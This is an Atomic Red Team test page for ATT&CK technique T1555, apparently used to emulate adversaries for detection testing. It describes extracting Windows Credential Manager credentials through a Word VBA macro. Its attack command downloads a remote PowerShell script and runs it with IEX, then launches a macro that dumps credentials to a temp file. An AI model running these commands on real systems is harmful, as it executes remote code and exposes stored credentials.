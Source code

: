 # T1555 - Credentials from Password Stores
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1555)
<blockquote>Adversaries may search for common password storage locations to obtain user credentials. Passwords are stored in several places on a system, depending on the operating system or application holding the credentials. There are also specific applications that store passwords to make it easier for users manage and maintain. Once credentials are obtained, they can be used to perform lateral movement and access restricted information.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Extract Windows Credential Manager via VBA](#atomic-test-1---extract-windows-credential-manager-via-vba)


<br/>

## Atomic Test #1 - Extract Windows Credential Manager via VBA
This module will extract the credentials found within the Windows credential manager and dump
them to $env:TEMP\windows-credentials.txt

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`! 


```powershell
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroFile "PathToAtomicsFolder\T1555\src\T1555-macrocode.txt" -officeProduct "Word" -sub "Extract"
```

#### Cleanup Commands:
```powershell
Remove-Item "$env:TEMP\windows-credentials.txt" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Word must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "word.Application" | Out-Null
  Stop-Process -Name $process
  exit 0
} catch { exit 1 } 
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Word manually to meet this requirement"
```




<br/>
